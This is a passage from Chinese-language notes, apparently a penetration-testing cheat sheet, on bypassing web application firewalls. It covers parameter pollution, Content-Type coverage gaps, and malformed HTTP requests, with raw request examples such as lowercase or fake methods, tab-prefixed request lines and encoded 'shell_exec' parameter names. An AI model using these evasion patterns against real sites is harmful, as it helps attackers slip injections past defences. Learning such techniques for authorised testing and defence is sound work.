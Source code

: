                 工作流程：客户端向服务器发起请求，请求到tomcat服务器，然后tomcat再向apache服务器请求数据，最后返回数据路径相反。
            - 由于服务器架构的原因，waf只可能检测其中一个参数的值，于是就在其他参数进行注入。

    - 协议未覆盖绕过WAF:

        ```
        POST 请求常用有2种参数提交方式：
        
        Content-Type: application/x-www-form-urlencoded;
        
        Content-Type: multipart/form-data;
        
        Waf未能覆盖Content-Type: multipart/form-data从而导致被绕过。或者WAF会认为它是文件上传请求，从而只检测文件上传，导致被绕过。如图，下面的WAF就存在被绕过的情况，是典型的协议未覆盖。
        ```

        - 对于get请求，同样提交post请求。payload同样是在url里面，但是waf有可能只检测了post body，忘记了url检测了。

    - 畸形请求包：

        - 常见HTTP WAF绕过清单

        - **添加一个换行**

            ```
            
            GET /login HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **请求头换为小写或更换字符**

            ```
            get /login HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            lol /login HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **请求头后面加tab(IIS)**

            ```
                GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **GET /login?shell_exec HTTP/1.1**

            ```
            GET /login?shell.exec HTTP/1.1
            GET /login?shell[exec HTTP/1.1
            GET /login?shell%5bexec HTTP/1.1
            GET /login?shell%2eexec HTTP/1.1
            GET /login?shell%5fexec HTTP/1.1
            GET /login?shell%20exec HTTP/1.1
            ```

